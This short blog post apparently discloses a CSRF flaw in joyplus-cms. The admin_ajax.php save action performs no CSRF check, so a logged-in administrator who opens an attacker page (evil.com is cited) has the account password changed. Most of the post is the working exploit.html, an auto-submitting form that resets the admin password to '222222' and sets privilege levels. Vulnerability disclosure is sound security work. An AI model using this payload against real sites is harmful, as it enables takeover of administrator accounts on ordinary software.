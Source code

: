 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      The new exploit in joyplus-cms              # 标题 
subtitle:   #副标题
date:       2018-10-09              # 时间
author:     oldT                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 漏洞
---
```


#origin

The yesterday , i use the joyplus-cms Building a website for company. Finding a 
Vulnerability in the cms. The cms is not csrf  verification. The hacker can modify the password of admin,when the admin click the link of the hacker.

#First

we login in the number of admin.

![](OTGG.github.io/img/图片1.png)

#secondly

And click the link of the exploit . http://www.evil.com/exploit.html

The password was modified!

![](OTGG.github.io/img/图片2.png)

#Vulnerability

The Vulnerability in the interface . looking the follow picture.

http://www.example.com/joyplus-cms/manager/admin_ajax.php?action=save&tab={pre}manager

![](OTGG.github.io/img/图片3.png)

#exploit

The exploit.html is next code

$<form action=http://www.example.com/manager/admin_ajax.php?action=save&tab={pre}manager method=POST>
$<input type="text" name="m_id" value="1" />
$<input type="text" name="flag" value="edit" />
$<input type="text" name="m_name" value="admin" />
$<input type="text" name="m_password" value="222222" />	// the password
$<input type="text" name="m_levels%5B%5D" value="2" />
$<input type="text" name="m_levels%5B%5D" value="4" />
$<input type="text" name="m_levels%5B%5D" value="6" />
$<input type="text" name="m_levels%5B%5D" value="8" />
$<input type="text" name="m_levels%5B%5D" value="9" />
$<input type="text" name="m_levels%5B%5D" value="10" />
$<input type="text" name="m_levels%5B%5D" value="7" />
$<input type="text" name="m_status" value="1" />
$</form>
$<script> document.forms[0].submit(); </script> 
